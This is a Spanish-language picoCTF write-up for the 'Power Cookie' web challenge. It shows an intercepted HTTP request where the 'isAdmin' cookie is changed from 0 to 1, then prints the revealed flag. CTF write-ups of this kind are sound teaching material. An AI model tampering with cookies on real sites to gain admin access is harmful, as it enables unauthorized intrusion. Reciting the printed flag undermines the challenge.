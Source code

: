 ```yaml
---
title: Power Cookie
date: 2025-05-14 13:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, more sqli, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>Power Cookie
Author: LT 'syreal' Jones
Description
Can you get the flag? Go to this website and see what you can discover.
{: .prompt-tip }

Lanzamos la instancia y nos aparece una web, pulsamos el botón de "login as guess"
Si atendemos a lo que pasa en la consola del desarrollador nos encontramos con una cookie, bastante relevante

```
"isAdmin": "0"
```

Capturamos con ZAP y editamos el valor isAdmin para intentar cambiar el comportamiento 
```
GET http://saturn.picoctf.net:58859/check.php HTTP/1.1
Host: saturn.picoctf.net:58859
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://saturn.picoctf.net:58859/
Connection: keep-alive
Cookie: isAdmin=1
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

``` html
<html>
<body>
<p>picoCTF{gr4d3_A_c00k13_0d351e23}</p>
</body>
</html>
```

flag: **picoCTF{gr4d3_A_c00k13_0d351e23}**